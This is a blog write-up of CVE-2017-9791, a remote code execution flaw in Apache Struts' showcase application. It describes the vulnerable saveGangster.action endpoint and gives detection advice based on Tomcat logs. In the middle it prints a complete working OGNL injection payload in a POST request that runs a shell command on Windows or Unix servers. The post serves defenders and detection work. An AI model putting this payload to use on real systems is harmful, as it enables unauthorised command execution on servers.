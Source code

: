 ```yaml
---
title: "CVE-2017-9791 exploit details"
layout: post
---
```


Was looking back through some of my notes and came across this write up I did for a Struts exploit. Nothing crazy but what I liked about the notes I captured was around detection on what defenders could have alerted on when this exploit came out. Enjoy!


Confirmed publicly released exploits of CVE-2017-9791 do allow remote code execution with privileges of the web server.  In recent vulnerabilities involving Struts and others it appears that most business functions follow the best practice of running the web server without admin or root privileges but of course this needs to be confirmed on a case by case basis.

The vulnerable functionality within Struts 2.3.X and below is a sample Struts application that comes bundled by default named struts2-showcase, this application is not installed by default so one would have to intentionally deploy this application.  Below is a screenshot showing it deployed.

![](https://lh5.googleusercontent.com/Cna7087uCh5hl3NVMnHjc5lqM8ebpQvU8Al1V8fei6YU2xxhzWOwWdi3riS8SvBe2GpNuxyYd0CHrjyDc8hF5VLtFDy-1oKLcM_YGDHQ9WTzeRZdglj2ji55yfAhBXr-eHaRntmM)

Below is a screenshot of the vulnerable functionality within Showcase.

![](https://lh4.googleusercontent.com/_8yGvO5MwjNvFFpDXuWXANsrIXKzbp8dfnZR0VbDbCQqUAkuatZ2Un38nVivkBBuyGozvs4_QvjoZBF7wG-nZ9mwI6kmeMyYNEovYx97xBoA89gEutZmb8ZNY7M6943hhvVcyFQL)

The URL to access this functionality is [http://hostname.com/struts2-showcase/integration/editGangster.action](http://hostname.com/struts2-showcase/integration/editGangster.action), once there one can fill out the forms and submit the request to test the working example.  Once that request is submitted it goes to the server as a post request.  

```
POST /struts2-showcase/integration/saveGangster.action  
```

Knowing if these URLs exist is one way of determining if the underlying Struts system is vulnerable as Struts 2.5.X does not contain this functionality.  Struts 2.5.X will contain the struts2-showcase application but not the Struts1 plugin. In comparing the downloads of different Struts version only the ones with the “struts2-struts1-plugin” Jar file were vulnerable.

![](https://lh3.googleusercontent.com/Kt1dnmIX8iUrZh5QqtzhQwldfHbFQcFBkAPSzuHH9Y_PewFTLJR8o1KQiNOtF0Pc9LQMUSHU0xBHwpjbciCUoIKlebdh7agT9Rqu1FbGEOBwhHu48YhgZ-EFCo5yhh5SX5CtKCnS)

So if the vulnerable application isn’t deployed but you had access to the file system of the web server then checking for the struts2-struts1-plugin Jar file is another way of confirming if the underlying system could be exposed in the future.

We used publicly known techniques to confirm exploitation was possible, similar to a posting here [https://github.com/nixawk/labs/issues/8](https://github.com/nixawk/labs/issues/8).  Sending a specialized URL request with a proof of concept to execute the command whoami can be seen below.

![](https://lh4.googleusercontent.com/mrHQtGcs7kY7vgWlKrXZgn0Rrbm1OI4zzejyjStQwmFqhD5dhjenv-gJkVWzgE8tzpMRIQObhsxBXSfsAqSC0fhsU9_X4dZ5KVofI-v7vmz5LWpXoHaA12TaDA2EqudzN9ubY3Z3)

The request has to be URL encoded but the complete translation is below.  

```
POST /struts2-showcase/integration/saveGangster.action HTTP/1.0
Content-Length: 1187
Host: 192.168.142.216:8080
Content-Type: application/x-www-form-urlencoded
Connection: close
User-Agent: Python-urllib/2.7  

name=%{(#\_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT\_MEMBER\_ACCESS).(#\_memberAccess?(#\_memberAccess=#dm):((#container=#context\['com.opensymphony.xwork2.ActionContext.container'\]).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}&age=1337&\_\_cheackbox\_bustedBefore=true&description=blah
```

Here is the exploit being ran from the command line via a python script.

![](https://lh6.googleusercontent.com/BxY99kAz6J2xN5sGQLFsEe9rn4SJcFHGAfYV_cDrMHAQ7ru-vMuwrpKioKNjuf_miRS9EhgkA4_0KHLsATVeMJdjDi_gYG8EkcmGiw6ouG3tdMz77tPWLEi5rElzbxJhNzx0fCQq)

If logging is enabled within Tomcat it will have the individual URL requests, in Windows these logs are located in c:\\Program Files (x86)\\Apache Software Foundation\\Tomcat\\logs with the name of the log being localhost\_access\_log.date.  A snippet of these logs are below with the last request being the saveGangster.action request.  

```
192.168.142.216 - - \[08/Jul/2017:20:03:51 -0400\] "GET / HTTP/1.1" 200 11418
192.168.142.216 - admin \[08/Jul/2017:20:03:53 -0400\] "GET /manager/html HTTP/1.1" 200 12398
192.168.142.216 - admin \[08/Jul/2017:20:04:40 -0400\] "POST /manager/html/upload?org.apache.catalina.filters.CSRF\_NONCE=817A45627CEDACBC2F98D9BF3B598839 HTTP/1.1" 200 14179
192.168.142.128 - admin \[08/Jul/2017:20:04:55 -0400\] "GET /manager/html HTTP/1.1" 200 14179
192.168.142.128 - - \[08/Jul/2017:20:04:55 -0400\] "GET /manager/images/tomcat.gif HTTP/1.1" 304 -
192.168.142.128 - - \[08/Jul/2017:20:04:55 -0400\] "GET /manager/images/asf-logo.svg HTTP/1.1" 304 -
192.168.142.128 - - \[08/Jul/2017:20:05:00 -0400\] "GET /struts2-showcase/index.action HTTP/1.1" 200 10870
192.168.142.128 - - \[08/Jul/2017:20:05:00 -0400\] "GET /struts2-showcase/struts/utils.js HTTP/1.1" 200 4730
192.168.142.128 - - \[08/Jul/2017:20:05:07 -0400\] "GET /struts2-showcase/integration/editGangster.action HTTP/1.1" 200 12001
192.168.142.128 - - \[08/Jul/2017:20:05:07 -0400\] "GET /struts2-showcase/struts/xhtml/styles.css HTTP/1.1" 200 1093
192.168.142.128 - - \[08/Jul/2017:20:05:07 -0400\] "GET /struts2-showcase/struts/utils.js HTTP/1.1" 200 4730
192.168.142.128 - - \[08/Jul/2017:20:10:16 -0400\] "POST /struts2-showcase/integration/saveGangster.action HTTP/1.1" 200 11408  
```

This remote code execution exploit has been proven to work on Windows and \*nix systems.  For detection purposes simply looking for the gangster.action in logs would be a great indicator of malicious activity but not the end all be all.  There are different styles of payloads that can be used to take advantage of this vulnerability so a combination of the gangster.action plus ONGL functionality plus OS style commands will be a better indicator of malicious activity.
